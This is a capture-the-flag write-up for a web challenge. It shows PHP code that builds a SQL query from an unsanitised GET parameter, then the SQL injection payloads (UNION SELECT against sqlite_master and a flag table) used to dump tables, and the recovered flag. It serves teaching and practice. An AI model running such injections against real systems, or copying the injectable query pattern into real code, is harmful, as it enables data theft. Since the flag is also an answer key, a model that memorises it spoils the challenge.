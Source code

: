 # Speedrun 2

Web<br/>


### Description
[challenges.ctfd.io:30026](challenges.ctfd.io:30026)

<br/><br/><br/>

### Solution

#### Discovery
Visiting the site, we get an array and some php code<br/>
````PHP
<?php

    $dbhandle = new PDO("sqlite:../uni.db") or die("Failed to open DB");
    if (!$dbhandle) die ($error);

    $credits = 3;
    if (isset($_GET["credits"])){
      $credits = $_GET["credits"];
    }
    $query = "select * from course where credits=".$credits;
    $statement = $dbhandle->prepare($query);
    $statement->execute();
    $results = $statement->fetchAll(PDO::FETCH_ASSOC);

    echo json_encode($results);
    echo highlight_file(__FILE__, true);
?>
````
Quite evidently, we are supposed to use SQL injection<br/>
We first test out by setting `$_GET["credits"]` to `3+UNION+SELECT+*+FROM+course` ([link](http://challenges.ctfd.io:30026/?credits=3+UNION+SELECT+*+FROM+course))<br/>
We can see that indeed, SQL injection works and we see some courses with 4 credits<br/>
We also note that this uses sqlite database<br/>

#### Finding tables
The structure of the results is that there are 4 components, `course_id`, `title`, `dept_name`, and `credits`<br/>
Hence, our injected code should also return 4 components<br/>
We set `$_GET["credits]` to `0+UNION+SELECT+1,+2,+3,+tbl_name+FROM+sqlite_master` ([link](http://challenges.ctfd.io:30026/?credits=0+UNION+SELECT+1,+2,+3,+tbl_name+FROM+sqlite_master))<br/>
We thus find the available tables<br/>
````
advisor
classroom
course
department
flag_xor_shares
grade_points
instructor
prereq
section
student
takes
teaches
time_slot
````

#### Crypto
We select the flag_xor_shares table, and get some interesting results ([link](http://challenges.ctfd.io:30026/?credits=0+UNION+SELECT+1,+2,+*+FROM+flag_xor_shares))<br/>
````
7419ccad9d5949e66614cd9458cdac149c2ad981c9f3ec56d30d03e730631c23598394a6055c55ecb5bec49dd0043b9fde76
835db37484676a462e223024a365c91fcdfe53ff975852abfacb79e0f3aef8d5b897a36c6fbfde9ca8e63b3ee00d3a1830f1
9c5890b6230771372122e9352ed1f3a1f644c9d4e451b81cb2f6643a067669972dc6a06617eaf08e539ada9a92b713b09b0c
53e5553b467e4badfcee4d97262445b27cdad3ced69a7fc69e0a04196685a61052cdd2f8a7a9650a0d861707f51403ccebc3
6dbdf9003a3c710afbc92a669f248c6fbe15fc550753264477436a5093614a2efc76310bb7906c911c305a0a39f566c8fc35
````
We thus use a tool to XOR each line with the following, and finally arrive at the flag<br/>

<br/>
> UDCTF{h0n3stly_we_l1k3_crypt0_a_bit_m0re_th4n_w3b}